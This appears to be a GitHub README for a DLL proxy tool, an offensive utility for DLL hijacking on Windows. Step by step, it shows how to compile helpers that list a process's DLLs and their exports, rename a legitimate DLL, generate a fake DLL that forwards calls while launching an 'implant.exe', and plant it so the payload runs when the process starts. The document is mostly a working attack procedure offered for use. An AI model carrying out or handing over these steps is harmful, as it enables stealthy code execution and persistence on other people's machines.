 # DLL Proxy

This project provides a simple method to create a proxy DLL using three main files:

- **dll-extractor.cpp**: Lists all currently loaded DLLs in a running process.

- **function-extractor.cpp**: Extracts the exported functions from DLL.

- **maker.sh**: Adds the extracted functions into a template for creating a fake (proxy) DLL.


# How to Use

**Step 1**  

Compile dll-extractor.cpp and function-extractor.cpp.
```bash
x86_64-w64-mingw32-g++ dll-extractor.cpp -o dll-extractor.exe
```
```bash
x86_64-w64-mingw32-g++ function-extractor.cpp -o function-extractor.exe -ldbghelp
```

**Step 2**  

Transfer the compiled files to a Windows system and run them there.
```cmd
dll-extractor.exe TARGET-PROCSS
```
```cmd
function-extractor.exe c:\PATH\example.dll
```
**Step 3**  

Copy the extracted function names to file.txt.  
> expample file.txt
![](img/img1.png)

renaming the target DLL(for example, by adding a letter like "1" or "2" to its name in target system).
```cmd
ren c:\PATH\example.dll c:\PATH\example1.dll
```

`-d`: the path to the same DLL that was renamed).
```bash
./maker.sh -d "c:\PATH\example1.dll" -o output.cpp -p "c:\PATH\implant.exe" file.txt
```


Note: If the DLL path contains spaces, make sure to wrap it in double quotes `" "`.

**Step 4**  

Compile output.cpp using the original name DLL `example.dll` and place it next to the original DLL.
```cmd
x86_64-w64-mingw32-g++ -shared -o example.dll output.cpp
```
After the process is launched,your payload will be executed.

---
**You can also move the original DLL to a different folder, but make sure to define its new path correctly inside maker.sh.**
